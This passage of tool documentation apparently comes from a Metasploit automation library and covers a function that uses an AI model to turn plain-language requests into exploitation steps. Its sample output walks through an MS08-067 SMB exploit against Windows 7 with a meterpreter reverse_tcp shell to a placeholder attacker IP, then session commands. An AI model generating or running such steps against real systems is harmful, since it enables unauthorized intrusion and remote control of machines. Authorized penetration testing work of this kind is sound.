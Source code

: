 **Requires**: OpenRouter API key configured

---

### 14. generate_metasploit_commands_with_ai

**Purpose**: Convert natural language descriptions into step-by-step Metasploit commands.

**Parameters**:
- `description` (required, string): Natural language description of task
- `target_os` (optional, string): Target operating system
- `target_service` (optional, string): Target service or application

**Returns**:
- Dictionary with AI-generated command guide

**Example Usage**:

```python
# Natural language with AI
"How do I exploit a vulnerable FTP server?"
"Show me how to scan for SMB vulnerabilities and exploit them"
"What's the process for getting a shell on a Linux web server?"

# Direct tool call
generate_metasploit_commands_with_ai(
    description="Exploit an unpatched Windows 7 machine via SMB",
    target_os="Windows 7",
    target_service="SMB"
)
```

**Sample Output**:
```json
{
  "status": "success",
  "description": "Exploit an unpatched Windows 7 machine via SMB",
  "target_os": "Windows 7",
  "target_service": "SMB",
  "ai_generated_guide": "## Step-by-Step Metasploit Commands\n\n### 1. Start a Handler\n```\nstart_listener(\n  payload_type='windows/meterpreter/reverse_tcp',\n  lhost='<YOUR_IP>',\n  lport=4444\n)\n```\n\n### 2. Run the Exploit\n```\nrun_exploit(\n  module_name='exploit/windows/smb/ms08_067_netapi',\n  options={'RHOSTS': '<TARGET_IP>'},\n  payload_name='windows/meterpreter/reverse_tcp',\n  payload_options={'LHOST': '<YOUR_IP>', 'LPORT': 4444}\n)\n```\n\n### 3. Verify Session\n```\nlist_active_sessions()\n```\n\n### 4. Interact with Session\n```\nsend_session_command(session_id=1, command='sysinfo')\n```\n\n## Safety Considerations\n- Only use on authorized systems\n- Verify target is Windows 7\n- Check patch level first\n- Have written permission",
  "model_used": "x-ai/grok-4-fast:free"
}
```

**Guide Includes**:
- Numbered step-by-step instructions
- Actual tool calls with parameters
- Explanations for each step
- Safety considerations
- Prerequisites
- Alternative approaches
